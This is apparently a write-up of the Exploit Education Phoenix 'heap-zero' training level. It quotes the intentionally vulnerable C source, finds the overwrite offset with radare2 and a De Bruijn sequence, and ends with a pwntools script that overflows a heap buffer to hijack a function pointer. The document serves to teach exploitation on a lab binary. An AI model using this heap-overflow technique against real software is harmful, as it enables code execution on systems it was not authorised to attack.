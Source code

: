 ```yaml
---
description: 'http://exploit.education/phoenix/heap-zero/'
---
```


# heap0

## Source

Luckily it gives us the source:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

## Analysis

So let's analyse what it does:

* Allocates two chunks on the heap
* Sets the `fp` variable of chunk `f` to the address of `nowinner`
* Copies the first command-line argument to the `name` variable of the chunk `d`
* Runs whatever the `fp` variable of `f` points at

The weakness here is clear - it runs a random address on the heap. Our input is copied there after the value is set and there's no bound checking whatsoever, so we can overrun it easily.

### Regular Execution

Let's check out the heap in normal conditions.

```text
$ r2 -d -A heap0 AAAAAAAAAAAA            <== that's just a parameter
$ s main; pdf
[...]
0x0040075d      e8fefdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
0x00400762      488b45f8       mov rax, qword [var_8h]
[...]
```

We'll break right after the strcpy and see how it looks.

```text
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x400762
```

![The Expected Two Chunks](../../../.gitbook/assets/image%20%285%29.png)

If we want, we can check the contents.

![Chunk with our input](../../../.gitbook/assets/image%20%282%29.png)

![The Chunk with the Function Address](../../../.gitbook/assets/image%20%283%29.png)

So, we can see that the function address is there, after our input in memory. Let's work out the offset.

### Working out the Offset

Since we want to work out how many characters we need until the pointer, I'll just use a [De Bruijn Sequence](../../stack/de-bruijn-sequences.md).

```text
$ ragg2 -P 200 -r
```

```text
$ r2 -d -A heap0 AAABAACAADAAE...
```

Let's break **on** and **after** the `strcpy`. That way we can check the location of the pointer then immediately read it and calculate the offset.

```text
[0x004006f8]> db 0x0040075d
[0x004006f8]> db 0x00400762
[0x004006f8]> dc
hit breakpoint at: 0x40075d
```

![The chunk before the strcpy](../../../.gitbook/assets/image.png)

So, the chunk with the pointer is located at `0x2493060`. Let's continue until the next breakpoint.

```text
[0x0040075d]> dc
hit breakpoint at: 0x400762
```

![Corrupted](../../../.gitbook/assets/image%20%281%29.png)

radare2 is nice enough to tell us we corrupted the data. Let's analyse the chunk again.

![](../../../.gitbook/assets/image%20%284%29.png)

Notice we overwrote the `size` field, so the chunk is much bigger. But now we can easily use the first value to work out the offset \(we could also, knowing the location, have done `pxq @ 0x02493060`\).

```text
[0x00400762]> wopO 0x6441416341416241
80
```

So, fairly simple - 80 characters, then the address of `winner`.

## Exploit

```python
from pwn import *

elf = context.binary = ELF('./heap0')

payload = (b'A' * 80 + flat(elf.sym['winner'])).replace(b'\x00', b'')

p = elf.process(argv=[payload])

print(p.clean().decode('latin-1'))
```

{% hint style="info" %}
We need to remove the null bytes because `argv` doesn't allow them
{% endhint %}

